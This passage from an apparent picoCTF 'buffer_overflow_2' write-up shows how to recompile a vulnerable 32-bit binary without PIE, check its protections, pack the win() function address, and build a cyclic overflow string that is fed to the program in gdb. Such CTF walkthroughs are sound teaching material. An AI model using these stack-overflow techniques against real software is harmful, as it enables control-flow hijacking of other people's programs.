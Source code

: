 ```
gcc vuln.c -m32 -o vuln2
```
   - Don't forget also to check the security of the binary given :

```
└─$ checksec vuln 
[*] '/home/rivench/Documents/picoCTF/pwn/buffer_overflow_2/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

   - As you can see, the PIE option is disabled, so here is how your compilation command becomes :

```
gcc vuln.c -m32 -no-pie -o vuln2
```

   - Finally, you get your new binary code `vuln2` (Don't forget to check for the new Address of the `win()` function and the cyclyc chars)

```
>>> from pwn import *
>>> p32(0x080491d6)
b'\xd6\x91\x04\x08'
```

From here, you can start creating your exploit. Two option to solve this challenge :

 - **Using gdb :** you can use gdb by running the binary and pass to it the file that contains the overflow string :

```
└─$ python3          
Python 3.10.8 (main, Oct 24 2022, 10:07:16) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> imp = open('text.txt')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
FileNotFoundError: [Errno 2] No such file or directory: 'text.txt'
>>> imp = open('text.txt', wb)
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
NameError: name 'wb' is not defined
>>> imp = open('text.txt', 'wb')
>>> imp.write(b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaab\x13\x12\x00\x00')
116
>>> exit()
```

```
┌──(rivench㉿kali)-[~/Documents/picoCTF/pwn/buffer_overflow_2]
└─$ gdb vuln2
...
gef➤  r < ./text.txt
```
